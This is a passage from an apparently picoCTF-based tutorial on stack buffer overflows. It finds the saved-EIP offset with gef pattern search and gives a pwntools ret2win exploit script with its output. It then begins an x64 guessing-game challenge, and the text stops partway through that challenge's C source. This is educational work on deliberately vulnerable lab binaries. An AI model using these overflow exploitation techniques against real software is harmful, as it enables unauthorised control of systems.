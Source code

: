 Remember that a `call` instruction equals to `push eip+x` `jmp addr`, so the saved `eip` will be at `ebp+4`. `0x28+0x4=44`, so 44 bytes will take us to the saved `eip`. How about the pattern approach?
```
gef➤  info frame
Stack level 0, frame at 0xffffc934:
 eip = 0x6161616c; saved eip = 0x6161616d
 called by frame at 0xffffc938
 Arglist at 0xffffc92c, args: 
 Locals at 0xffffc92c, Previous frame's sp is 0xffffc934
 Saved registers:
  eip at 0xffffc930
gef➤  pattern search $eip
[+] Searching for '$eip'
[+] Found at offset 44 (little-endian search) likely
[+] Found at offset 41 (big-endian search)
```
We have the same result. Replace the last 4 bytes of input with the address of `win` and we get the flag.
```python
from pwn import *

# io = remote('saturn.picoctf.net', 52544)
io = process('./vuln')
io.sendline(b'A'*44+p32(0x80491f6))
io.interactive()
```
```
❯ python3 ./solve.py
[+] Starting local process './vuln': pid 31630
[*] Switching to interactive mode
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{test}[*] Got EOF while reading in interactive
```

## x64 Example - Guessing Game 1
> I made a simple game to show off my programming skills. See if you can beat it! [vuln](https://jupiter.challenges.picoctf.org/static/6ff916d2bb51444a179ffef1213a9bf7/vuln) [vuln.c](https://jupiter.challenges.picoctf.org/static/6ff916d2bb51444a179ffef1213a9bf7/vuln.c) [Makefile](https://jupiter.challenges.picoctf.org/static/6ff916d2bb51444a179ffef1213a9bf7/Makefile) `nc jupiter.challenges.picoctf.org 51462`

### Source Code
`Makefile` tells us this is a x64 binary.
```makefile
all:
	gcc -m64 -fno-stack-protector -O0 -no-pie -static -o vuln2 vuln.c

clean:
	rm vuln
```
There's a buffer overflow in `win`, but it is protected by `rand()`.
```c
long increment(long in) {
	return in + 1;
}

long get_random() {
	return rand() % BUFSIZE;
}

int do_stuff() {
	long ans = get_random();
```